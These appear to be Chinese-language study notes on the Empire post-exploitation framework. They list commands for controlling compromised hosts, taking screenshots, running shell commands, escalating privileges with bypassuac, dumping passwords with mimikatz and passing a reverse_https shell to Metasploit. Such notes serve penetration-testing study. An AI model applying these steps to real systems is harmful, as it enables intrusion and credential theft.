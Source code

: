 interact <name>:进入靶机交互界面

list stale #列出已丢失反弹代理权的靶机

 

<靶机name>

sysinfo,info

sc:屏幕截图

usemodule：查看可以用的模块，217个

agentcmds：查看agent下的命令

searchmodule <name>   Search Empire module names/descriptions.

<scripts> 使用scriptimport ./path/命令导入脚本。 使用代理中的“ scriptcmd”命令，

shell <command> :使用靶级的shell运行命令

提权： bypassuac 模块提权,然后就可以用mimikatz来获得密码

creds：显示获得的密码，凭证

 

<反弹shell给msf>

使用模块 code_execution/invoke_shellcode

host 即 msf 所在机器的 ip，lport 即 msf 监听反弹 shell 的端口

exploit 默认是reverse_https 所有msf监听处理的时候设置成同样的paylaod
